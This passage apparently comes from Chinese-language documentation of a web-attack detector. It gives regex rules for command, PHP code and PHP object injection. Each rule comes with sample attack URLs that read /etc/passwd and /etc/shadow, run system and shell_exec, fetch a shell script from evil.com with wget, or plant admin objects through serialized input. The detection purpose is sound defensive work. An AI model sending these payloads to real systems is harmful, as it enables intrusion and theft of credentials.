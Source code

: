 **範例攻擊**:
```
/?cmd=cat /etc/passwd
/?exec=ls -la /home
/?run=wget http://evil.com/shell.sh
/?input=; cat /etc/shadow
```

**優先級**: Order = 3

---

### 6. PHP Code Injection (PHP 程式碼注入)

**正則表達式**:
```python
PHP_CODE_INJECTION = re.compile(r".*(;)*(echo|system|print|phpinfo)(\(.*\)).*")
```

**偵測邏輯**:
- 檢查是否包含 PHP 危險函數
- 偵測函數: `echo`, `system`, `print`, `phpinfo`
- 必須有函數呼叫語法 `()`

**範例攻擊**:
```
/?cmd=system('whoami')
/?code=phpinfo()
/?exec=echo shell_exec('id')
```

**優先級**: Order = 2

---

### 7. PHP Object Injection (PHP 物件注入)

**正則表達式**:
```python
PHP_OBJECT_INJECTION = re.compile(r"(^|;|{|})O:[0-9]+:")
```

**偵測邏輯**:
- 檢查 PHP 序列化物件格式
- 格式: `O:數字:` (代表 Object)
- 可能在字串開頭或 `;`, `{`, `}` 之後

**範例攻擊**:
```
/?data=O:8:"stdClass":1:{s:4:"user";s:5:"admin";}
/?session=O:4:"User":2:{s:8:"username";s:5:"admin";s:8:"password";s:0:"";}
```

**優先級**: Order = 2

---

### 8. CRLF Injection (CRLF 注入)
